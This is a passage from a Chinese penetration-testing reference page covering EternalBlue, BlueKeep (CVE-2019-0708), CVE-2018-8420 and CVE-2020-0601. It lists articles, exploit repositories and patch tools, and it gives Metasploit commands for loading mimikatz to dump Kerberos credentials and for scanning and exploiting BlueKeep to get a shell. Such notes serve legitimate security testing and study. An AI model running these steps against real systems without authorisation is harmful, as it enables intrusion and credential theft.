     # msf 下加载 mimikatz 模块
    load mimikatz
    kerberos
    ```

- 修复工具
    - ["永恒之蓝"勒索蠕虫漏洞修复工具](https://www.qianxin.com/other/wannacryfix)

**bluekeep & CVE-2019-0708**
- 文章
    - [RDP Stands for "Really DO Patch!" – Understanding the Wormable RDP Vulnerability CVE-2019-0708](https://securingtomorrow.mcafee.com/other-blogs/mcafee-labs/rdp-stands-for-really-do-patch-understanding-the-wormable-rdp-vulnerability-cve-2019-0708/)
    - [worawit/CVE-2019-0708](https://github.com/worawit/CVE-2019-0708/blob/master/NOTE.md)

- POC | Payload | exp
    - [zerosum0x0/CVE-2019-0708](https://github.com/zerosum0x0/CVE-2019-0708)
    - [robertdavidgraham/rdpscan](https://github.com/robertdavidgraham/rdpscan)
    - [Ekultek/BlueKeep](https://github.com/Ekultek/BlueKeep)
    - [mekhalleh/cve-2019-0708](https://github.com/mekhalleh/cve-2019-0708) (实测、蓝屏)
    - [Cyb0r9/ispy](https://github.com/Cyb0r9/ispy)
    - [k8gege/CVE-2019-0708](https://github.com/k8gege/CVE-2019-0708) - 批量检测工具

- 修复工具
    - ["CVE-2019-0708"漏洞检测修复工具](https://www.qianxin.com/other/CVE-2019-0708)
    - https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708

- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
    set rhosts <ip>
    run
    ```
    ```bash
    # 利用
    use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    set target <1-7>
    set rhosts <ip>
    show options
    exploit
    shell
    python
    ```

---

## 其他
**CVE-2018-8420 Msxml 解析器的远程代码执行漏洞**
- POC | Payload | exp
    - [Lz1y/CVE-2018-8420](https://github.com/Lz1y/CVE-2018-8420)

**CVE-2020-0601**
- POC | Payload | exp
    - [ollypwn/CVE-2020-0601](https://github.com/ollypwn/CVE-2020-0601)
    - [kudelskisecurity/chainoffools](https://github.com/kudelskisecurity/chainoffools)
